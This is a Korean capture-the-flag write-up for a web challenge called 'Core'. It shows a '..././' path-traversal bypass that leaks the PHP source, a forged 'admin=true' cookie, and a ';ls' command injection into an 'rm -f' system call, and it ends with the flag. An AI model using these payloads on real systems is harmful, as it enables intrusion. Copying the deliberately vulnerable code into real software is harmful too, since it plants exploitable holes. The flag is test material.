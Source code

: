 # Core

**Description:**
> 핵(Core = Hack = Nucleus) 실험은 진행 중... :(


## Write-up
![Main](img/001.png)
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet와 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.  
/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.

다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.
```
.hint:sublime { text-decoration: none; }
```
![Hint](img/002.png)
힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print("<img src='files/worker.png'>"); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config
```
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  
![AdminPage](img/003.png)

그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 "*" 기호는 필터링되어 있고 글자 길이도 3글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.
```
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls
![AdminPage](img/004.png)

;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
따라서 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9
```
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
